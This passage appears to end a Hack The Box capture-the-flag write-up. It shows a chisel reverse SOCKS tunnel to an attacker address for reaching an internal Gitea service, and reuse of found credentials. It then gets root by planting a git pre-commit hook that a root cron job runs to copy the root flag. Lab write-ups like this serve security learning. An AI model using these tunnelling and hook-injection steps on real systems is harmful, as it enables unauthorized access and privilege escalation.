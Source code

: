 Let's tunnel the traffic:

```shell
# attacker side: chisel will create a proxy on 127.0.0.1:1080 (not 8888)
chisel server -p 8888 --reverse
# container side
chisel client 10.10.16.3:8888 R:socks
# and access it
chromium --proxy-server="socks5://localhost:1080"
```

`172.17.0.1:3000` is running Gitea:

![][gitea]

And there's the soulless dev01 registered: the credentials work and it has a "home backup" repository and `.ssh` is in it.

## Root

There's a cron job periodically commiting the new content in `/home/dev01`. It uses git and runs as root.

Let's hook the flag:

```shell
printf '#/bin/bash\ncat /root/root.txt > /tmp/flag\nchown dev01:dev01 /tmp/flag\n' > .git/hooks/pre-commit
chmod +x .git/hooks/pre-commit
```

Voilà :)

[author-profile]: https://app.hackthebox.com/users/476556
[debug-console]: images/debug-console.png
[gitea]: images/gitea.png
[hacktricks-pin]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
[pin-leak]: images/pin-leak.png


